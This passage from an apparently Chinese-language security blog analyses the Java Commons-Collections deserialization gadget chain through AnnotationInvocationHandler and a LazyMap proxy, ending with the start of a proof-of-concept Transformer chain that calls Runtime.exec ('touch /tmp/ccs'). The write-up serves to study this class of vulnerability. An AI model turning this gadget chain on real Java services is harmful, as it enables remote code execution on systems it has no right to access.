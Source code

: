 上面提到的代理调用操作怎么触发呢，利用级联序列化的特点，我用刚才创建的代理对象 proxy 再次实例化一个新的hook，代理`Map`接口。由于它仍然是序列化的，当它进入反序列化流程，首先会反序列化级联的那个代理对象 proxy 的反序列化操作，完成和`Map`接口的代理管理。然后反序列化新 hook（级联反序列化顺序是从里到外） ，新 hook 执行到`readObject`里这一行代码
```
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
```
`entrySet` 是`Map`接口的方法，如果 memberValues 是刚才反序列化创建的代理对象，代理操作在这里就触发了。执行`invoke`，打通整个 gadgets。


### 新的LazyMap#get的poc
为了构造AnnotationInvocationHandler的poc，我需要改造之前的LazyMap#get的poc，原因如下。
之前的poc是这样的：
![-w864](media/15923231349853/15925600208044.jpg)
我需要控制get的参数是`Runtime.class`。
如果按照刚才设计的触发流程，现在的实际情况是
```
1 反序列化外层hook时，执行readObject到其中的：
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
触发代理流程，调用invoke

2 调用invoke时，method=entrySet
public Object invoke(Object proxy, Method method, Object[] args) {
        String member = method.getName();
        ...
        Object result = memberValues.get(member);
}
```
即现在我无法控制`LazyMap.get`的参数。为了重新完成 gadgets ，引入了`ConstantTransformer#transform`。
![-w742](media/15923231349853/15923409894707.jpg)
`ConstantTransformer#transform`原样返回传入的参数。所以我可以把`Runtime.Class`也放到 transformer 链中，新的 poc 代码
```
public static void testLazyMapNew() {
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class},
                    new Object[]{"touch /tmp/ccs"})
```